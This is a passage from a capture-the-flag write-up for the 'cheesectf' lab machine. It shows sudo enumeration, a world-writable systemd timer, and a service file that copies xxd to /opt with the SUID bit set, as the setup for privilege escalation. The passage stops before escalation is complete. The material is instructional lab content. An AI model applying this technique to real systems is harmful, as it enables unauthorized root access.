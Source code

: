```terminal
comte@cheesectf:~$                                  
comte@cheesectf:~$ id
uid=1000(comte) gid=1000(comte) groups=1000(comte),24(cdrom),30(dip),46(plugdev)
```

Let's check our privileges.

```terminal
comte@cheesectf:~$ sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```

We can start the `exploit.timer` service we saw earlier.

```terminal
comte@cheesectf:/etc/systemd/system$ sudo /bin/systemctl start exploit.timer
Failed to start exploit.timer: Unit exploit.timer has a bad unit file setting.
See system logs and 'systemctl status exploit.timer' for details.
```

Trying to start it gives us an error, let's check the file.

```terminal
comte@cheesectf:/etc/systemd/system$ cat exploit.timer 
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
```

Pasting this to chatgpt tells us that the error is at `OnBootSec` which doesn't have any value.

It also tells us that there should be another file that should be called `exploit.service` that runs after we start `exploit.timer`.

```terminal
comte@cheesectf:/etc/systemd/system$ ls -l exploit.*
-rw-r--r-- 1 root root 141 Mar 29 15:36 exploit.service
-rwxrwxrwx 1 root root  87 Mar 29 16:25 exploit.timer
```

We indeed found the service file.

```terminal
comte@cheesectf:/etc/systemd/system$ cat exploit.service 
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```
